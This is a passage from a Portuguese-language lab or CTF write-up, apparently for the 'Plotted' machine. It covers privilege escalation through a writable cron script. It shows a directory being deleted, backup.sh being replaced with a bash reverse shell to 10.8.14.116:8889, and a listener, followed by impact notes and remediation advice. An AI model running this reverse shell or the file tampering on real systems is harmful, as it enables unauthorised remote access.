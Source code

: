 ```bash
www-data@plotted:~$ ls -la /var/www/
drwxr-xr-x  2 www-data www-data 4096 Oct 28  2021 scripts
```

Com essa informações, podemos executar:
```bash 
rm -r /var/www/scripts
```

Recebmos uma mensagem de permissão negada, mas o arquivo foi removido, então podemos acessar a pasta e recriar o arquivo backup.sh
```bash 
cd scripts;
nano backup.sh
```

E preencher o novo backup.sh com o seguinte conteúdo, a fim de conseguirmos uma shell reversa com o usuário plot_admin
```
#!/bin/bash

sh -i >& /dev/tcp/10.8.14.116/8889 0>&1
```

Ao recriar o arquivo backup.sh, podemos inicar um listener com o penelope na máquina atacante
```
python3 penelope.py 8889
```


**Impacto:**  
Esta vulnerabilidade permite que um atacante:

- Modifique o conteúdo do script backup.sh para incluir comandos maliciosos
- Execute comandos arbitrários com os privilégios do usuário plot_admin
- Potencialmente escalone privilégios adicionais dependendo das permissões do usuário plot_admin
- Estabeleça persistência no sistema através de execuções programadas

**Recomendações:**  
1. Implementar permissões adequadas nos arquivos e diretórios do sistema, especialmente aqueles usados em tarefas automatizadas
2. Aplicar o princípio de menor privilégio para os usuários do sistema
3. Utilizar caminhos absolutos nos scripts do cron e restringir as permissões de escrita
4. Considerar o uso de mecanismos como sudo com regras específicas em vez de cron jobs com usuários privilegiados
5. Implementar auditoria de atividades para detectar modificações não autorizadas em scripts do sistema

**Referências:**
- CWE-269: Improper Privilege Management
- CWE-732: Incorrect Permission Assignment for Critical Resource
- OWASP Top 10 2021: A01 - Broken Access Control
### 4. Escalonamento de Privilégios via DOAS (CRÍTICA)

**Identificador:** VULN-004  
**Severidade:** Crítica  
**CVSS:** 9.1 (AV/AC/PR/UI/S/C/I/A)  
**Localização:** /usr/bin/doas
